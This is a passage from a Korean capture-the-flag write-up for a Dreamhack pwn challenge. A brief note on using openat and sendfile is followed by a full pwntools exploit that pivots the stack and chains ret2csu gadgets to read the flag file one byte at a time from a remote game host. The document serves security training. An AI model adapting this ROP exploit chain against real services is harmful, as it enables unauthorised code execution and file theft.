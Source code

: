 `openat`이랑 `sendfile` 쓰면 된다. 필자는 `sigreturn` 쓰는 게 너무 귀찮고 왠지 안 써도 될 거 같아서 그냥 진행했다. 다른 건 다 문제가 없었는데 `sendfile`의 네 번째 인자(`rcx`)를 조작할 수 없는 게 문제였다. `혹시 어떤 값이 들어있지 않을까?`라고 믿고 해봤는데 1바이트씩 출력되었다. 그래서 offset 조절하면서 일

# exploit

```python
from pwn import *
from time import *

context.terminal = ['tmux', 'splitw', '-h']
#context.log_level = 'debug'

flag = b""
for i in range(0x30):
    #p = process('./chall')
    p = remote('host3.dreamhack.games', 23054)
    e = ELF('./chall')
    bss = e.bss() + 0x500
    csu1 = 0x40145A
    csu2 = 0x401440
    leave_ret = 0x00000000004013b5
    syscall = 0x00000000004013f5
    pop_rbp = 0x000000000040119d
    ret = 0x40101a

    payload = b'a' * 0x10 + p64(bss) + p64(0x4013d3) + p64(bss) + p64(leave_ret)
    p.send(payload)

    sleep(0.5)
    payload = b'./flag\x00\x00' + p64(syscall) + p64(ret)
    payload += p64(csu1) + p64(0) + p64(1) + p64(-100 & ((1 << 64) - 1)) + p64(bss - 0x10) + p64(0) + p64(bss - 0x8) + p64(csu2)
    payload += p64(csu1) + p64(0) + p64(bss) + p64(1) + p64(5) + p64(bss - 0x10) + p64(bss - 8) + p64(0x4013d3) + p64(bss) + p64(leave_ret)
    payload = payload.ljust(0x101, b'\x00')
    p.send(payload)

    sleep(0.5)
    payload = p64(i) + p64(syscall) + p64(ret) + p64(csu2) + p64(ret)
    p.send(payload)
    try:
        flag += p.recvn(1)
    except:
        p.close()
        break
    print(flag.decode())
    p.close()
print(flag.decode())
```